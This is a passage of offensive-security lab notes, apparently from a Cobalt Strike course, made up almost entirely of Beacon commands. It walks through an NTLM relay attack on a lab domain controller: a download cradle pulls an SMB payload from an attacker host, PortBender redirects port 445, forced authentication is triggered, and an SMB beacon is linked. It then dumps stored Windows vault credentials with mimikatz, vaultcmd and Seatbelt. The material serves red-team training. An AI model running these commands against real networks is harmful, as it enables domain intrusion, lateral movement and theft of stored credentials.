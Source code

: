 # 10.10.122.10 is the IP address of dc-2.dev.cyberbotic.io, which is our target.
# The encoded command is a download cradle pointing at http://10.10.123.102:8080/b, and /b is an SMB payload.

# 6. Upload PortBender driver and load its .cna file (Cobalt Strike > Script Manager and load PortBender.cna from C:\Tools\PortBender)
beacon> cd C:\Windows\system32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
beacon> PortBender redirect 445 8445

# 7. Manually try to access share on our system or use MSPRN, Printspooler to force authentication (Refer to Notes)
# Manually triggering the attack (Usin a console of Wkstn-1 as nlamb user to make authentication attempt on wkstn-2.)
C:\Users\nlamb>hostname
wkstn-1
C:\Users\nlamb>dir \\10.10.123.102\relayme
C:\Users\nlamb>dir \\wkstn-2\relayme
# 8. Verify the access in weblog and use link command to connect with SMB beacon
beacon> link dc-2.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10

Data Protection API (DPAPI)

# Use mimikatz to dump secrets from windows vault
beacon> mimikatz !vault::list
beacon> mimikatz !vault::cred /patch

# Part 1: Enumerate stored credentials, Make sure to enumerate as both Admin and Domain User in a machine.
# 0. Check if system has credentials stored in either web or windows vault
beacon> run vaultcmd /list
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
beacon> run vaultcmd /listcreds:"Web Credentials" /all
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
